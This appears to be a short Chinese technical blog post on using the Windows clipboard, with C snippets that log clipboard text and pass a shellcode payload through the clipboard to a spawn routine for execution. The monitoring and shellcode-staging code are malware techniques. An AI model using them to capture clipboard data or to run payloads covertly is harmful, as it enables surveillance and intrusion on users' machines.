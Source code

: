# Clipboard Data Deliver

## 简介

我这水文居然还有人催更，就随便写点什么吧。

前几天同事叫我写个小demo，这里简单记录下，说需要监控剪贴板数据，实质也是一块共享内存，以往用剪贴板作为跨进程通信的方式传递过payload，常见的通信方式也就那么几种ReadFile/WriteFile,CreateMailslot,CreatePipe,socket,OpenClipboard,CreateFileMapping。

## 流程

1. OpenClipboard打开剪贴板
2. GetClipboardData指定格式检索获取对象
3. GlobalLock锁定内存对象获取指针
4. 读取数据
5. GlobalUnlock解锁全局对象
6. CloseClipboard关闭剪贴板

## 代码

### 监听

```text
    HGLOBAL   hglb;
    LPVOID    lptstr;
    SYSTEMTIME systemTime;
    if (!OpenClipboard(NULL)) { return; };
    hglb = GetClipboardData(CF_TEXT);
    if (hglb != NULL)
    {
        lptstr = GlobalLock(hglb);
        if (lptstr != NULL)
        {
            GetLocalTime(&systemTime);
            printf("%d.%d.%d %d:%d:%d\n", systemTime.wYear, systemTime.wMonth, systemTime.wDay, systemTime.wHour, systemTime.wMinute, systemTime.wSecond);
            printf("%s\n", lptstr);
            fflush(stdout);
            GlobalUnlock(hglb);
        }
    }
    CloseClipboard();
```

### 传递

```text

    if (!OpenClipboard(NULL)) { return; };
    hGlobalCopy = GlobalAlloc(GMEM_MOVEABLE,sizeof(shellcode));

    lpCopy = GlobalLock(hGlobalCopy);
    memcpy(lpCopy, payload->payload, payload->length);
    GlobalUnlock(hGlobalCopy);

    SetClipboardData(CF_TEXT, hGlobalCopy);

    hGlobal = GetClipboardData(CF_TEXT);
    if (hGlobal != NULL)
    {
        lptstr = GlobalLock(hGlobal);
        if (lptstr != NULL)
        {
            memcpy(buffer, lptstr, payload->length);
            GlobalUnlock(hGlobal);
        }
    }
    EmptyClipboard();
    CloseClipboard();
    spawn(buffer, payload->length, payload->key);
    free(buffer);
    
```

## LINKS

{% embed url="https://docs.microsoft.com/zh-cn/windows/win32/dataxchg/clipboard?redirectedfrom=MSDN" %}



